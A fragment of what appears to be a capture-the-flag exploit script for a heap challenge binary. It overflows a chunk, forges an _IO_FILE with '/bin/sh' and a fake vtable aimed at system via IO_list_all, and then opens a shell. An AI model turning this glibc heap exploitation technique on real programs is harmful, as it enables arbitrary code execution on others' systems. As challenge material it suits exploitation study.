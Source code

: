 ```python

# debug()

payload='a'*0x600+p64(0)+p64(0x21)+p64(0x0000ddaa00000001)+p64(0) # before unsorted bin
fakefile="/bin/sh\x00"+p64(0x61)+p64(0)+p64(IO_list_all-0x10) # reset bk and construct fake _IO_2_1_stdout
# construct fake _IO_2_1_stdout
fakefile+=p64(0)+p64(1) # write_base < write_ptr
fakefile=fakefile.ljust(0xd8,'\x00')
fakefile+=p64(heapbase+0x700+0xf0-0x18) # vtable
fakefile+=p64(0)*2
fakefile+=p64(sys_addr)
payload+=fakefile
leak("system",hex(IO_list_all))
upgrade(0x600+len(payload),payload,1,56746)

# debug()
# trigger by add
ru("Your choice : ")
sl('1')

itr()
```

